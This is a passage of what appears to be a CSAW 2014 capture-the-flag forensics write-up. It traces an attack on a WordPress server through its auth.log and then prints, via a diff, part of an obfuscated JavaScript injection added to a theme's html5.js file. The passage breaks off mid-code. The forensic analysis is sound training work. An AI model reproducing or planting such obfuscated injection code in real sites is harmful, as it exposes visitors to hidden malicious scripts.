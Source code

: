 We start with the Apache's log because they carry the connection information. If there is any important information in the log files, it should appear in the end, because the attack should be one of the last things that were logged.

 It turned out that [Tailing] the *apache* logs did not reveal anything useful.

-----
## Inspecting var/logs/auth.log


Considering that the password **fluffybunnies** was very easy to guess, we are going to take a leap and suppose that this was how the attack was crafted.

Tailing ```auth.log``` shows something interesting:

```sh
Sep 17 19:18:53 ubuntu sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu/CSAW2014-WordPress/var/www ; USER=root ; COMMAND=/bin/chmod -R 775 /var/www/
Sep 17 19:20:09 ubuntu sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu/CSAW2014-WordPress/var/www ; USER=root ; COMMAND=/usr/bin/vi /var/www/html/wp-content/themes/twentythirteen/js/html5.js
Sep 17 19:20:55 ubuntu sudo:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu/CSAW2014-WordPress/var/www ; USER=root ; COMMAND=/usr/bin/find /var/www/html/ * touch {}
```
So someone logged as root:

 1. downgraded the permissions of */var/www* (755 means read and execute access for everyone and also write access for the owner of the file), and

 2. modified a JavaScript file (html5.js) in *vi*.

---
## Finding the JavaScript Exploit


It looks like an attack to me! Let's [diff] this JavaScript file with the original ([which we can just google]):


```sh
$ diff html5.js html5_normal.js
93,122d92
< var g = "ti";
< var c = "HTML Tags";
< var f = ". li colgroup br src datalist script option .";
< f = f.split(" ");
< c = "";
< k = "/";
< m = f[6];
< for (var i = 0; i < f.length; i++) {
<     c += f[i].length.toString();
< }
< v = f[0];
< x = "\'ht";
< b = f[4];
< f = 2541 * 6 - 35 + 46 + 12 - 15269;
< c += f.toString();
< f = (56 + 31 + 68 * 65 + 41 - 548) / 4000 - 1;
< c += f.toString();
< f = "";
< c = c.split("");
< var w = 0;
< u = "s";
< for (var i = 0; i < c.length; i++) {
<     if (((i == 3 || i == 6) && w != 2) || ((i == 8) && w == 2)) {
<         f += String.fromCharCode(46);
<         w++;
<     }
```

[CSAW CTF 2014 Forensic -Obscurity]: http://singularity-sh.vercel.app/forensics-200-obscurity.html
[online hex-decode]: http://ddecode.com/hexdecoder/
[which we can just google]: http://phpxref.ftwr.co.uk/wordpress/wp-content/themes/twentythirteen/js/html5.js.source.html
[Tailing]: http://en.wikipedia.org/wiki/Tail_(Unix)
[phpMyAdmin]: http://www.phpmyadmin.net/home_page/index.php
[qpdf]: http://qpdf.sourceforge.net/
[l3afpad]: http://tarot.freeshell.org/leafpad/
[diff]: http://linux.die.net/man/1/diff
[MySQL database dump file]: http://dev.mysql.com/doc/refman/5.1/en/mysqldump.html
[Linux File System]: http://www.tldp.org/LDP/intro-linux/html/sect_03_01.html
[LAMP server]: https://coderwall.com/p/syyk0g?i=5&p=1&q=author%3Abt3gl&t%5B%5D=bt3gl
[CSAW2014-FluffyNoMore-v0.1.tar.bz2]: https://ctf.isis.poly.edu/static/uploads/649bdf6804782af35cb9086512ca5e0d/CSAW2014-FluffyNoMore-v0.1.tar.bz2
[bzip2]: http://en.wikipedia.org/wiki/Bzip2
[cute website]: http://ww17.blog.eyeheartfluffybunnies.com/?fp=Tnxj5vWdcChO2G66EhCHHqSAdskqgQmZEbVQIh1DCmrgCyQjbeNsPhkvCpIUcP19mwOmcCS1hIeFb9Aj3%2FP4fw%3D%3D&prvtof=RyfmkPY5YuWnUulUghSjPRX510XSb9C0HJ2xsUn%2Fd3Q%3D&poru=jcHIwHNMXYtWvhsucEK%2BtSMzUepfq46Tam%2BwGZBSFMjZiV2p3eqdw8zpPiLr76ixCoirz%2FR955vowRxEMBO%2FoQ%3D%3D&cifr=1&%22
[blog]: http://ww17.blog.eyeheartfluffybunnies.com
[hashcat]: http://hashcat.net/hashcat/
[file]: http://en.wikipedia.org/wiki/File_(command)
[Kali]: http://www.kali.org/
[Node]: http://nodejs.org/